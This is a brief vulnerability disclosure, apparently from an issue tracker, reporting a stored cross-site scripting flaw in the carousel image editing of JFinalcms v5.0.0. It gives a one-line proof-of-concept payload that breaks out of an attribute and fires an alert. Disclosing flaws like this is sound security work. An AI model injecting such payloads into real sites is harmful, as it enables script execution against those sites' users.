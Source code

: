 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

There is a storage type XSS for carousel image editing

![图片](./1.png)

poc:`"><img src=1 onerror=alert(1)>`


![图片](./2.png)

successed

![图片](./2.png)